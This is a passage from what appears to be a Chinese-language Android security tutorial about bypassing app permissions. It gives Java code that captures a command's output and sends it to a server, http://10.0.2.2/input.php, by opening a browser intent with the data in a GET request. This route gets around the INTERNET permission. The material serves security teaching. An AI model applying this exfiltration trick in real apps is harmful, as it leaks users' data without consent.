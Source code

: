 剩余的代码用于读取文件的每一行，并将其存储在`str`字符串中：

```
BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream())); 
int read; 
char[] buffer = new char[4096]; 
StringBuffer output = new StringBuffer(); 
  try { 
    while ((read = reader.read(buffer)) > 0) { 
      output.append(buffer, 0, read); 
    } 
  } catch (IOException e) { 
      // TODO Auto-generated catch block 
    throw new RuntimeException(e); 
  } 

  try { 
    reader.close(); 
  } catch (IOException e) { 
    // TODO Auto-generated catch block 
    //e.printStackTrace(); 
    throw new RuntimeException(e); 
  } 
  // Waits for the command to finish. 
  try { 
    process.waitFor(); 
  } catch (InterruptedException e) { 
    // TODO Auto-generated catch block 
    //e.printStackTrace(); 
  } 
  String data = output.toString(); 

```

最后，我们通过 GET 方法将捕获的数据发送到服务器：

```
startActivity(new Intent(Intent.ACTION_VIEW, Uri.parse("http://10.0.2.2/input.php?input=" + data))); 

```

## 还有更多...

在 Android 权限绕过、获取 root 权限和扩展权限方面还有很多可以探索的内容。请参考*另见*部分中提到的链接。

## 另见

+   [`hackinparis.com/data/slides/2012/Georgia-androidpermissions.pdf`](https://hackinparis.com/data/slides/2012/Georgia-androidpermissions.pdf)

# 逆向工程 iOS 应用程序
